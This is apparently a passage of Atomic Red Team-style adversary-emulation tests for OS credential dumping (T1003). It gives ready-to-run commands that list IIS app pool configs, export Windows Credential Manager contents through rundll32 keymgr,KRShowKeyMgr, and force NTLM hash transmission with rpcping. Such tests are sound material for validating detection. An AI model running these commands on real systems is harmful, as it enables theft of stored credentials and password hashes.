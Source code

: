 ```
Command:
C:\Windows\System32\inetsrv\appcmd.exe list apppool /config

Dependencies:
Description: IIS must be installed prior to running the test
Check Prereq Command:
if ((Get-WindowsFeature Web-Server).InstallState -eq "Installed") {exit 0} else {exit 1}
Get Prereq Command:
Install-WindowsFeature -name Web-Server -IncludeManagementTools
[!!!!!!!!END TEST!!!!!!!]


[********BEGIN TEST*******]
Technique: OS Credential Dumping T1003
Atomic Test Name: Dump Credential Manager using keymgr.dll and rundll32.exe
Atomic Test Number: 6
Atomic Test GUID: 84113186-ed3c-4d0d-8a3c-8980c86c1f4a
Description: This test executes the exported function `KRShowKeyMgr` located in `keymgr.dll` using `rundll32.exe`. It opens a window that allows to export stored Windows credentials from the credential manager to a file (`.crd` by default). The file can then be retrieved and imported on an attacker-controlled computer to list the credentials get the passwords. The only limitation is that it requires a CTRL+ALT+DELETE input from the attacker, which can be achieve multiple ways (e.g. a custom implant with remote control capabilities, enabling RDP, etc.). Reference: https://twitter.com/0gtweet/status/1415671356239216653

Attack Commands:
Executor: powershell
ElevationRequired: False
Command:
rundll32.exe keymgr,KRShowKeyMgr
[!!!!!!!!END TEST!!!!!!!]


[********BEGIN TEST*******]
Technique: OS Credential Dumping T1003
Atomic Test Name: Send NTLM Hash with RPC Test Connection
Atomic Test Number: 7
Atomic Test GUID: 0b207037-813c-4444-ac3f-b597cf280a67
Description: RpcPing command can be used to send an RPC test connection to the target server (-s) and force the NTLM hash to be sent in the process.  Ref: https://twitter.com/vysecurity/status/974806438316072960

Attack Commands:
Executor: powershell
ElevationRequired: False
Command:
rpcping -s #{server_ip} -e #{custom_port} -a privacy -u NTLM 1>$Null
Command (with inputs):
rpcping -s 127.0.0.1 -e 1234 -a privacy -u NTLM 1>$Null
[!!!!!!!!END TEST!!!!!!!]
```

